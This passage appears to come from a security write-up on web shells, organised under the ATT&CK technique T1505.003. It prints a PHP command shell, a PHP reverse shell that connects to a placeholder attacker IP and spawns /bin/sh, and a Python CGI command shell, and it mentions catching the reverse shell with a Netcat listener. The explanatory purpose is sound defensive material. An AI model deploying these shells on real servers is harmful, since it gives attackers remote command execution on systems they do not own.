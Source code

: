 ### T1505.003 - Web Shell - PHP & Python

Web shells often integrate seamlessly with web server configurations like `Apache`, `Nginx`, or `Lighttpd`. These scripts can be categorized into two primary types: command execution (CMD) and reverse shell web shells.

**1. Command shells**

CMD web shells provide a simple interface to execute system commands through a browser or remote tool. A typical PHP CMD web shell might look like this:

```php
<?php
if (isset($_GET['cmd'])) {
    echo shell_exec($_GET['cmd']);
}
?>
```

**2. Reverse shells**

Reverse shell web shells establish an outbound connection from the compromised server to the attacker’s machine. An example PHP reverse shell:

```php
<?php
$ip = '192.168.1.100'; // Attacker IP
$port = 4444;          // Attacker Port
$socket = fsockopen($ip, $port);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

The attacker runs a listener on their machine using `Netcat` or any other listener. When the shell script is accessed, it connects to the attacker, providing an interactive session.

**Leveraging the Common Gateway Interface (CGI) for web shells**

The [Common Gateway Interface (CGI)](https://www.ibm.com/docs/en/i/7.4?topic=functionality-cgi) allows web servers to execute external scripts and return their output to clients. Attackers can use CGI scripts to execute commands in various languages, including Python, Bash, and Perl. A Python CGI web shell example:

```python
#!/usr/bin/env python3
import cgi
import os

print("Content-type: text/html\n\n")
form = cgi.FieldStorage()
command = form.getvalue("cmd")
if command:
    output = os.popen(command).read()
    print(output)
```

CGI scripts offer versatility and can be used in environments where PHP or other web shells might be restricted.
